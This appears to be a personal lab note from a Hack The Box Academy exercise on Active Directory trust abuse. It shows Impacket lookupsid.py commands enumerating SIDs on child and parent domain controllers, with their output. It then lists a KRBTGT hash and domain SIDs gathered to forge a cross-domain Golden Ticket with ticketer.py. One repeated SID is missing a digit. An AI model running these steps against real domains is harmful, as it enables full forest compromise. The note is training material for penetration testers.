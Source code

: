 #### What is it?
[[Impacket]] tool for brute forcing SID's from a linux host

Target child domain controller
```bash-session
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 
```

```bash-session
maiamor@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 

Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at 172.16.5.240
[*] StringBinding ncacn_np:172.16.5.240[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2806153819-209893948-922872689
500: LOGISTICS\Administrator (SidTypeUser)
501: LOGISTICS\Guest (SidTypeUser)
502: LOGISTICS\krbtgt (SidTypeUser)
512: LOGISTICS\Domain Admins (SidTypeGroup)
513: LOGISTICS\Domain Users (SidTypeGroup)
514: LOGISTICS\Domain Guests (SidTypeGroup)
515: LOGISTICS\Domain Computers (SidTypeGroup)
516: LOGISTICS\Domain Controllers (SidTypeGroup)
517: LOGISTICS\Cert Publishers (SidTypeAlias)
520: LOGISTICS\Group Policy Creator Owners (SidTypeGroup)
521: LOGISTICS\Read-only Domain Controllers (SidTypeGroup)
522: LOGISTICS\Cloneable Domain Controllers (SidTypeGroup)
525: LOGISTICS\Protected Users (SidTypeGroup)
526: LOGISTICS\Key Admins (SidTypeGroup)
553: LOGISTICS\RAS and IAS Servers (SidTypeAlias)
571: LOGISTICS\Allowed RODC Password Replication Group (SidTypeAlias)
572: LOGISTICS\Denied RODC Password Replication Group (SidTypeAlias)
1001: LOGISTICS\lab_adm (SidTypeUser)
1002: LOGISTICS\ACADEMY-EA-DC02$ (SidTypeUser)
1103: LOGISTICS\DnsAdmins (SidTypeAlias)
1104: LOGISTICS\DnsUpdateProxy (SidTypeGroup)
1105: LOGISTICS\INLANEFREIGHT$ (SidTypeUser)
1106: LOGISTICS\htb-student_adm (SidTypeUser)
```

Domain SID is: S-1-5-21-2806153819-209893948-922872689

Target parent domain controller next, and then add the RID of the target group to the end

```shell-session
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```

```shell-session
maiamor@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"

Password:

[*] Domain SID is: S-1-5-21-2806153819-209893948-92287268
```

```shell-session
lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```

```shell-session
maiamor@htb[/htb]$ lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"

Password:
[*] Domain SID is: S-1-5-21-3842939050-3880317879-2865463114
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\administrator (SidTypeUser)
501: INLANEFREIGHT\guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
514: INLANEFREIGHT\Domain Guests (SidTypeGroup)
515: INLANEFREIGHT\Domain Computers (SidTypeGroup)
516: INLANEFREIGHT\Domain Controllers (SidTypeGroup)
517: INLANEFREIGHT\Cert Publishers (SidTypeAlias)
518: INLANEFREIGHT\Schema Admins (SidTypeGroup)
519: INLANEFREIGHT\Enterprise Admins (SidTypeGroup)
```


- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist!): `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Create Golden ticket with [[ticketer.py]] 